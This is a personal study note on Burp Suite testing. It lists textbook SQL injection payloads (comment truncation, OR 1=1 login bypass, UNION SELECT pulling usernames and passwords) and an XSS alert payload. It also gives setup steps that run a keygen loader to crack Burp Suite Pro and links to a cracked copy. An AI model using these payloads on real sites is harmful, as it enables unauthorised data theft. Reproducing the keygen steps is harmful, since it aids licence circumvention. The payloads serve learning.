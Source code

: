 ```yaml
---
title: Meow's Testing Tools - Burpsuite
date: 2019-09-17 11:11:11 -0400
categories: [10CyberAttack, CyberAttackTools]
tags: [CyberAttack, CyberAttackTools]
toc: true
image:
---
```


[toc]

---

# Burpsuite

---

test web: `www.dvwa.co.uk`

---

## Testing workflow

![burp-workflow](https://i.imgur.com/IlK1tx3.jpg)


---


## SQL injection


![Screen Shot 2020-11-18 at 12.29.51](https://i.imgur.com/XqX9weI.png)

`UPDATE, INSERT, SELECT, ORDER BY` 

1. retrieve hidden data:
   1. input: Gifts
   2. `http://web/products?category=Gifts`
   3. `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
   4. input: Gifts'--
   5. `http://web/products?category=Gifts'--`
   6. `SELECT * FROM products WHERE category = 'Gifts'`--' AND released = 1
   7. input: Gifts`'+OR+1=1--`
   8. `http://web/products?category=Gifts'+OR+1=1--`
   9. `SELECT * FROM products WHERE category = 'Gifts' OR 1=1`--' AND released = 1
2. subverting application logic
   1. `GET /web3/login/?id=1&Submit=Submit HTTP/1.1`
   2. `GET /web3/login/?id=1'OR 1=1 #`&Submit=Submit `HTTP/1.1`
   3. `GET /web3/login/?id=1'+OR+1+%3d+1+%23&`Submit=Submit `HTTP/1.1`
   4. input: admin 12345
   5. `SELECT * FROM user WHERE username = 'admin' AND password = '12345'`
   6. input: admin'-- 
   7. `SELECT * FROM user WHERE username = 'admin'`--' AND password = '12345'
3. retrieve data from other database tables
   1. input: Gifts
   2. `SELECT name, description FROM products WHERE category = 'Gifts'`
   3. input: Gifts' UNION SELECT username, password From users--
   4. `SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password From users`--
4. examining the database
   1. oracle: `SELECT * FROM v$version`
   2. list the table and database: `SELECT * FROM information_schema.tables`
5. blind SQL injection vulnerabilities


detecting SQL injection vulnerabilities: use scanner


[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

lab:

```
https://abc.net/filter?category=Lifestyle' UNION SELECT NULL,NULL,NULL--  


```


---

## XSS Exploitation

1. execute payload as `<script>alert(“hello”)</script>`


# install burpsuite


[file](https://drive.google.com/drive/folders/1YKAeBIXPeUFW78buqRlJ9Yg1Ln6W2f1R)

```bash
# Install homebrew

rm -rf /Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk

# Tap homebrew/cask-versions
brew tap homebrew/cask-versions

# install java8:
brew cask install adoptopenjdk8

# Check if java8 is successfully installed or not
/usr/libexec/java_home -verbose

# cd to the file
cd /Applications/Burp\ Suite\ Community\ Edition.app/Contents/java/app

# Window1:
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar burp-loader-keygen-2_1_07.jar

-jar burp-loader-keygen.jar

# add file
-Xbootclasspath/p:burp-loader-keygen-2_1_07.jar

# Window2:
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar burpsuite_pro_v2.1.07.jar

/Library/Java/JavaVirtualMachines/liberica-jdk-8.jdk/Contents/Home/bin/java -jar burpsuite_pro_v1.7.31


# Create a Bash Alias
# If you are missing a .bash_profile
burp2.1()
{
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar /Applications/Burp\ Suite\ Community\ Edition.app/Contents/java/app/burpsuite_pro_v2.1.07.jar
}

# Run
source ~/.bash_profile
# or
source ~/.zshrc

# Now you can type burp2.1 in terminal to open Burp Suite directly
```

[link](https://www.cnblogs.com/shaosks/p/13367761.html)
[link](https://github.com/raystyle/BurpSuite_Pro_v1.7.32)
[link](https://resources.infosecinstitute.com/burpsuite-tutorial/)






.
